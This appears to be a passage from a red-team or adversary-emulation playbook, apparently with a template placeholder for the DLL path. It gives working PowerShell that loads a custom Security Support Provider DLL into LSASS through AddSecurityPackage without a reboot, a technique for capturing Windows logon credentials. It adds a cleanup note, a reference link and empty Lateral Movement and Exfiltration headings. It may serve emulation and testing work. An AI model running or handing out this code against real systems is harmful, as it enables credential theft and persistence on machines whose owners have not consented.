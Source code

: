 ```
PS> $DllName = "{{ ssp_dll_path }}"
```

Then load the SSP into LSASS

```
PS>
$DynAssembly = New-Object System.Reflection.AssemblyName('SSPI2')
$AssemblyBuilder = [AppDomain]::CurrentDomain.DefineDynamicAssembly($DynAssembly, [Reflection.Emit.AssemblyBuilderAccess]::Run)
$ModuleBuilder = $AssemblyBuilder.DefineDynamicModule('SSPI2', $False)

$TypeBuilder = $ModuleBuilder.DefineType('SSPI2.Secur32', 'Public, Class')
$PInvokeMethod = $TypeBuilder.DefinePInvokeMethod('AddSecurityPackage',
    'secur32.dll',
    'Public, Static',
    [Reflection.CallingConventions]::Standard,
    [Int32],
    [Type[]] @([String], [IntPtr]),
    [Runtime.InteropServices.CallingConvention]::Winapi,
    [Runtime.InteropServices.CharSet]::Auto)

$Secur32 = $TypeBuilder.CreateType()

if ([IntPtr]::Size -eq 4) {
    $StructSize = 20
} else {
    $StructSize = 24
}

$StructPtr = [Runtime.InteropServices.Marshal]::AllocHGlobal($StructSize)
[Runtime.InteropServices.Marshal]::WriteInt32($StructPtr, $StructSize)

$Secur32::AddSecurityPackage($DllName, $StructPtr)
```

### Cleanup

- The SSP will be removed on system reboot or after manually calling DeleteSecurityPackage()

### References

- https://www.ired.team/offensive-security/credential-access-and-credential-dumping/intercepting-logon-credentials-via-custom-security-support-provider-and-authentication-package#loading-ssp-without-reboot

# Lateral Movement

# Exfiltration
